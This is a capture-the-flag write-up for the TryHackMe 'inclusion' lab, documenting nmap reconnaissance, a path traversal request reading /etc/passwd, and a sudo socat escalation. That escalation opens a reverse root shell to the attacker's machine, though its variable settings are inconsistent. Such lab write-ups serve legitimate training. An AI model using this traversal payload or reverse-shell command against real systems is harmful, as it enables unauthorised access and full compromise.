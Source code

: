 # Write up TryHackMe [inclusion](https://tryhackme.com/room/inclusion)  

## [Task 1] Deploy  
First thing to do when a machine has been deployed is run nmap  

`nmap -sV -T4 -A -p- 10.10.56.74`  
```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 14:52 CEST
Nmap scan report for 10.10.56.74
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.87 seconds
```

## [Task 2] Root it  

1. **user flag**  

    Checking the website on the IP given  
    ![index](index.png)  

    Checking the on LFI-attack.  
    ![lfiAttack](lfiAttack.png)  

    Let's try Directory Traversal / Path Traversal attack by calling:  
    `http://10.10.56.74/article?name=../../../../etc/passwd`  
    This GET request returns the content of passwd:  
    ![passwd](passwd.png)  
    
    By inspecting the content, the user `falconfeast` is found with SSH access.  
    Now login using SSH  
    ![ssh falconfeas@t10.10.56.74](ssh.png)

    user flag found  
    ![cat user.txt](user.png)

1. **root flag**  

    On the remote host run the command `sudo -l` to find which  check what the user falconfeast can run as sudo.  
    ![sudo -l](sudo.png)  

    Google to learn more about socat.  

    To install socat on mac first install [brew](https://brew.sh/) and then run the command `brew install socat`.  

    **Gaining root acess**  
    First get your local VPN IP address by running ifconfig, on my computer it's found under utun2.  

    On your local machine run the command ```socat file:`tty`,raw,echo=0tcp-listen:41337```  

    Go back to the falconfeast SSH connection and run the commands  
    `RHOST =  <your vpn ip address>`  
    `LHOST = 41337`  
    and then finally run the command  
    `sudo /usr/bin/socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane`  

    Go back to your local terminal and verify that connection has been etablished.  
    ![socat](socat.png)  
    
    Now cd to root directory and cat the root.txt  

    Done!  